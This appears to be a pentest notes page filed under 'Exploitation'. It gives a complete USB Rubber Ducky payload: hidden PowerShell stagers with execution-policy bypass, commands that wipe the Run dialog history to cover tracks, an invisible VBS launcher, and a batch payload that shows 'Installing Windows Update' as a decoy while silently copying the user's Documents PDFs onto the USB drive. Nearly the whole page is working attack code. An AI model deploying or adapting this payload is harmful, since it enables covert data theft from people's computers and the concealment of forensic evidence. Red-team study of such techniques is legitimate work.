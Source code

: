 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}


> **References** 
https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload
https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained

